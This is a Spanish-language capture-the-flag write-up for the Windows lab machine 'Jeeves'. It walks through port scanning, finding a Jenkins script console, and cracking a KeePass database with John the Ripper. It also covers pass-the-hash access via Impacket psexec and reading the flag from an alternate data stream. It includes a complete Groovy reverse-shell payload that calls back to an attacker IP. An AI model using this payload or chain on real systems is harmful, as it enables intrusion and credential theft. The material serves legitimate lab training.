 
![](../img/Jeeves/0.png)

#Windows #Medium 
___

Comenzamos con un reconocimiento básico de la máquina mediante el escaneo de puertos. Para ello, utilizamos **RustScan** de la siguiente manera:

```bash
sudo rustscan -a 10.129.228.112 --ulimit 5000 -r 1-65535 -- -sCV -oN targeted
[sudo] password for kali: 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
To scan or not to scan? That is the question.

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.228.112:80
Open 10.129.228.112:135
Open 10.129.228.112:445
.....
```

Procedemos a inspeccionar las páginas web disponibles, identificando que están accesibles a través de los puertos 80 y 5000. Además, verificamos la existencia de sesiones nulas en los protocolos RPC y SMB.

### Puerto 80

![](../img/Jeeves/1.png)

### Puerto 50000

![](../img/Jeeves/2.png)

### Realizamos una comprobación de los protocolos SMB y RPC para determinar si aceptan sesiones nulas.

### SMB

![](../img/Jeeves/3.png)

### RPC

![](../img/Jeeves/4.png)


Después de realizar las comprobaciones y análisis iniciales, procedemos a realizar un fuzzing en los dos aplicativos web con el objetivo de identificar posibles subdirectorios.



![](../img/Jeeves/5.png)

Durante el reconocimiento comprobamos la existencia de un direcotio llamado *askjeeves*

Una vez dentro, procedemos a nevegar en la pagina web, y obsevamos que tenemos una seccion de script, para ello usamos un comando que aprovecha de Grovy script para darnso una reverse shell

![](../img/Jeeves/6.png)


![](../img/Jeeves/7.png)


```cmd
String host='10.10.14.59';
int port=1234;
String cmd='cmd.exe';
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Si todo sale bien procedemos a obtener una reverse shell

![](../img/Jeeves/8.png)

Ahora toca escalar privilegios

Para ello, comenzamos buscando archivos **.kdbx** utilizando el siguiente comando:

```cmd
dir C:\*.kdbx /S /A:-D
```

Esto nos proporcionó como resultado una base de datos. Utilizamos **keepass2john** para convertirla a un formato compatible con **John the Ripper** y procedimos a realizar un ataque de fuerza bruta para descifrarla.

![](../img/Jeeves/9.png)

![](../img/Jeeves/10.png)

Logramos descifrar la base de datos utilizando **John the Ripper**.

![](../img/Jeeves/11.png)

A continuación, utilizamos **KeePassXC** para abrir la base de datos. Con la contraseña descifrada previamente con **John the Ripper**, obtenemos un hash de administrador. Posteriormente, empleamos la utilidad **psexec.py** de **Impacket** para establecer una conexión con el sistema.

![](../img/Jeeves/12.png)

Una vez conectado procedemos a encontrar la bandera de root pero al entrar al escriotorio nos percatamos que soo hay un archivo llamado hm.txt, para procedimos a hacer el siguiente comando 

```cmmd
dir /s/r hm.txt
```

Obteniendo como resultado lo siguiente.

![](../img/Jeeves/13.png)

Ejecutamos el siguiente comando para verificar si podemos acceder al flujo alternativo de datos:

```cmd
more < hm.txt:root.txt
```

Obteniendo como resultado la flag.
